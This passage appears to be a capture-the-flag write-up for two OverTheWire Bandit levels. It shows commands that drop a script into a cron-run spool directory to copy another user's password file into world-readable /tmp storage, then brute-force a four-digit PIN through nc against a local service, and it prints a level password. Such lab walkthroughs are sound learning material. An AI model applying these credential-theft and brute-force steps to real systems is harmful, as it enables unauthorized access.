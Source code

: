 ```bash
mkdir /tmp/rachu
cd /tmp/rachu
nano script.sh
```

```bash
#! /bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/rachu/password
```

```bash
# Making sure that the script file is executable
chmod +x script.sh
# Making sure that the password file is readable 
chmod 666 password
```

- Since the cronjob only executes the file in directory `var/spool/$myname` we copy just the script file to the same.

```bash
cp script.sh /var/spool/bandit24
```

- `bandit24` runs our script file in the baclground and the password must be ready to extract after few seconds.
- Password: `UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ`

# Bandit 24 → Bandit 25

- We write a script on the shell that creates a file with all the possible combination of password and pin.

```bash
for i in {0001..9999};do 
	echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i >> /tmp/rachu/combination;
done;
```

- Now we send the file to the listening port using `nc` command. The port checks the file line by line and returns the password when it finds the correct comination.

```bash
nc localhost 30002 < /tmp/rachu/combination
```

![Images/Untitled%206.png](Images/Untitled%206.png)
